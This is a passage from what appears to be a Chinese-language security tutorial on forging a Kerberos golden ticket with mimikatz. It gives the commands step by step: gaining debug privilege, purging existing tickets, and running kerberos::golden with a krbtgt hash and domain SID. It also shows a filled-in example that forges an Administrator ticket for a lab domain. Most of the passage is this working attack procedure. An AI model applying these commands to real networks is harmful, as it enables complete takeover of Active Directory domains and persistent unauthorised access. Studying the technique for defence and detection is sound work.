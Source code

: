 管理员窗口操作

#### 1、清除原有票据

因为在⽣成票据时需要将原有的票据清空，所以⼀旦票据⽣成失败，主机也将⽆法继续访问域内信息了 (脱域)。

使⽤ `kerberos::purge` 清空票据后，就可以使⽤ kerberos::golden ⽣成票据了。

```bash
mimikatz.exe
privilege::debug
kerberos::purge     清空票据
```

[![](assets/1706958938-5f902453e1862345ab42be54897e46cb.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172314746-1349902051.png)

#### 2、⽣成票据

```bash
kerberos::golden /user:<要伪造的⽤户名> /domain:<完整域名> /krbtgt:<krbtgt ⽤户的 hash> /sid:<域 sid> /ticket:<⽣成的⽂件名.kirbr>

kerberos::golden /user:Administrator /domain:mao.com /krbtgt:e798fdc7ba810c372ef7bffcdc8f2d13 /sid:S-1-5-21-86377703-696496247-1862912240 /ticket:carmi.kirbr
```

[![](assets/1706958938-56391e06a7b378aeaf5e5bb40689b56d.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316515-119343848.png)
